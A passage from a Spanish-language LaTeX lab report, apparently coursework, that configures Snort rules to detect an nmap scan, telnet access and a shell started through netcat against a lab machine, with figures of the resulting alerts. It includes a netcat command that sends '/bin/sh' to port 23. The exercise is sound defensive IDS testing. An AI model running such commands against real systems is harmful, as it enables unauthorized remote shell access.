  
\includegraphics[width=0.8\textwidth]{./images/SnortEscaneoNmap.png}
  \caption{Escaneo nmap y logs asociados.}
  \label{fig:snort5}
  \end{figure}

  \item Acceder a la máquina en dicho puerto. \\

  Para que Snort detecte este ataque, primero debe estar configurada la detección del mismo. Para ello, añadimos en el fichero \emph{/etc/snort/snort.conf} la línea correspondiente a las reglas de telnet, como observamos en la figura \ref{fig:snort6}. \\

  Además, conviene añadir en el fichero \emph{/etc/snort/rules/local.rules} las alertas para telnet, como se ve en la figura \ref{fig:snort7}.

  \begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{./images/SnortRules.png}
  \caption{Fichero snort.conf.}
  \label{fig:snort6}
  \end{figure}

  \begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{./images/SnortLocal.png}
  \caption{Fichero local.rules.}
  \label{fig:snort7}
  \end{figure}

  Una vez configurado lo anterior y relanzado el servicio, procedemos a atacar el puerto con telnet, como refleja la figura \ref{fig:snort8}.

  \begin{verbatim}
   $ telnet 192.168.62.189
  \end{verbatim}

  \begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{./images/SnortTelnet.png}
  \caption{Comando telnet y logs asociados.}
  \label{fig:snort8}
  \end{figure}

  \item Ejecutar una orden o un shell (/bin/sh o /bin/bash) en la víctima. \\

  Una vez dentro de la víctima, podemos hacer lo que queramos. En este caso, ejecutamos un shell.

  \begin{verbatim}
   $ nc 192.168.62.189 23 << _EOF_
   > /bin/sh
   > nc
   > _EOF_
  \end{verbatim}

  En la figura \ref{fig:snort9} se pueden observar los logs generados de tal shell.

  \begin{figure}[htbp]
  \centering
  
\includegraphics[width=0.9\textwidth]{./images/Snortnc.png}
  \caption{Logs generados tras nc.}
  \label{fig:snort9}
  \end{figure}

